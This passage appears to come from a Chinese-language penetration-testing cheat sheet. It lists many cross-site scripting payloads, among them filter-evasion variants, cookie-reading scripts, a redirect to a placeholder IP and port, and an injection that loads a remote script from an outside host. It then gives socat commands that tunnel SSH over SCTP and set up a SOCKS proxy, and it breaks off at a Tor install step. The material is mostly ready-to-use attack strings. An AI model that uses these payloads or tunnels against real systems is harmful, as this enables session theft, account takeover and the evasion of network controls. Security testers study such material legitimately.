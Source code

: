 <script>document.location=http://IP:PORT</script>

';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//–></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

";!–"<XSS>=&amp;amp;{()}

<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"">
<IMG SRC=&amp;amp;#106;&amp;amp;#97;&amp;amp;#118;&amp;amp;#97;&amp;amp;#115;&amp;amp;#99;&amp;amp;#114;&amp;amp;#105;&amp;amp;#112;&amp;amp;#116;&amp;amp;#58;&amp;amp;#97;&amp;amp;#108;&amp;amp;#101;&amp;amp;#114;&amp;amp;#116;&amp;amp;#40;&amp;amp;#39;&amp;amp;#88;&amp;amp;#83;&amp;amp;#83;&amp;amp;#39;&amp;amp;#41;>

<IMG SRC=&amp;amp;#0000106&amp;amp;#0000097&amp;amp;#0000118&amp;amp;#0000097&amp;amp;#0000115&amp;amp;#0000099&amp;amp;#0000114&amp;amp;#0000105&amp;amp;#0000112&amp;amp;#0000116&amp;amp;#0000058&amp;amp;#0000097&amp;amp;#0000108&amp;amp;#0000101&amp;amp;#0000114&amp;amp;#0000116&amp;amp;#0000040&amp;amp;#0000039&amp;amp;#0000088&amp;amp;#0000083&amp;amp;#0000083&amp;amp;#0000039&amp;amp;#0000041>
<IMG SRC="jav ascript:alert('XSS');">

perl -e 'print "<IMG SRC=javascript:alert(\"XSS\")>";' > out

<BODY onload!#$%&amp;()*~+-_.,:;?@[/|\]^`=alert("XSS")>

(">< iframes http://google.com < iframes >)

<BODY BACKGROUND="javascript:alert('XSS')">
<FRAMESET><FRAME SRC=”javascript:alert('XSS');"></FRAMESET>
"><script >alert(document.cookie)</script>
%253cscript%253ealert(document.cookie)%253c/script%253e
"><s"%2b"cript>alert(document.cookie)</script>
%22/%3E%3CBODY%20onload=’document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)'%3E
<img src=asdf onerror=alert(document.cookie)>
```
SSH Over SCTP (使用 Socat)
```
# 远端服务器
# 假设你准备让 SCTP socket 监听端口 80/SCTP 并且 sshd 端口在 22/TCP
$ socat SCTP-LISTEN:80,fork TCP:localhost:22

# 本地端
# 将 SERVER_IP 换成远端服务器的地址，然后将 80 换成 SCTP 监听的端口号
$ socat TCP-LISTEN:1337,fork SCTP:SERVER_IP:80

# 创建 socks 代理
# 替换 username 和 -p 的端口号
$ ssh -lusername localhost -D 8080 -p 1337
```
使用洋葱网络
```
# 安装服务
$ apt-get install tor torsocks

